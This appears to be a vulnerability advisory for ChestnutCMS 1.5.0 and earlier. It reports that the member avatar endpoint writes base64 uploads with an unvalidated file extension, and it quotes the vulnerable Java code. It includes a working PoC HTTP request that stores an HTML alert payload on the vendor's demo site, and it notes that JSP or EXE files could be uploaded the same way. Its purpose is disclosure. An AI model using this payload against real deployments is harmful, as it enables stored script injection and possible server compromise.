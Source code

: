 
## PRODUCT

ChestnutCMS

## Vendor of Product

https://gitee.com/liweiyi/ChestnutCMS

## VERSION

ChestnutCMS <=1.5.0

## Vulnerability Type

File Upload

## Description
Based on the code analysis, it was determined that the /avatar API endpoint receives a base64 string as input. This string is then passed to the memberService.uploadAvatarByBase64 method for processing. Within the service, the base64-encoded image is parsed. For example, given a string like:
data:image/html;base64,PGh0bWw+PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPjwvaHRtbD4=
the content after the comma is extracted and decoded using Base64.getDecoder().decode().
The substring from the 11th character up to the first occurrence of a semicolon (;) is assigned to the suffix variable (representing the file extension). The decoded content is then written to a file.
However, the file extension is not validated, and since this functionality is exposed to the frontend, it poses significant security risks.
```
Controller

	@IgnoreDemoMode
	@Priv(type = MemberUserType.TYPE)
	@PostMapping("/avatar")
	public R<?> uploadMemberAvatar(@RequestParam String image,
								   @RequestParam(required = false, defaultValue = "false") Boolean preview) throws IOException {
		String url = this.memberService.uploadAvatarByBase64(StpMemberUtil.getLoginIdAsLong(), image);

		this.memberStatDataService.removeMemberCache(StpMemberUtil.getLoginIdAsLong());
		return R.ok(MemberUtils.getMemberResourcePrefix(preview) + url);
	}
}

Service
@Override
	public String uploadAvatarByBase64(Long memberId, String base64Data) throws IOException {
		if (!base64Data.startsWith("data:image/")) {
			return null;
		}
		String base64Str = StringUtils.substringAfter(base64Data, ",");
		byte[] imageBytes = Base64.getDecoder().decode(base64Str);

		String suffix = base64Data.substring(11, base64Data.indexOf(";"));
		String path = "avatar/" + memberId + "." + suffix;
		FileUtils.writeByteArrayToFile(new File(MemberConfig.getUploadDir() + path), imageBytes);

		log.info("upload avatar: " + path);
		this.lambdaUpdate().set(Member::getAvatar, path).eq(Member::getMemberId, memberId).update();
		return path;
	}
```


## POC：
Test with the official demonstration site and use the provided demonstration account
![image](https://github.com/user-attachments/assets/8f09a097-8729-4b9c-a199-4e17368d081c)

After logging in, replace the Authorization-M in the PoC with your account information.
Use Burp Suite to send the following crafted malicious 

PoC:

```
POST /api/member/avatar HTTP/1.1
Host: swikoon.1000mz.com
Authorization-M: Bearer b67fafaf-dd79-4c6d-8e6a-51f23a14a5b0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymTQcZR4jrbYbTdAy


------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="action"

wpcom_cropped_upload
------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="nonce"

undefined
------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="image"

data:image/html;base64,PGh0bWw+PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPjwvaHRtbD4=
------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="type"

0
------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="user"

443381386166341
------WebKitFormBoundarymTQcZR4jrbYbTdAy--
```

![image](https://github.com/user-attachments/assets/cfa02ddd-ad75-4c8c-b145-faa3f91ffb07)

Access the return address
![image](https://github.com/user-attachments/assets/ea6cff33-0831-438d-a091-4c361ea30f9b)
Of course, you can also upload jsp or exe files

demo site
http://news.1000mz.com

official website
https://gitee.com/liweiyi/ChestnutCMS
https://www.1000mz.com/



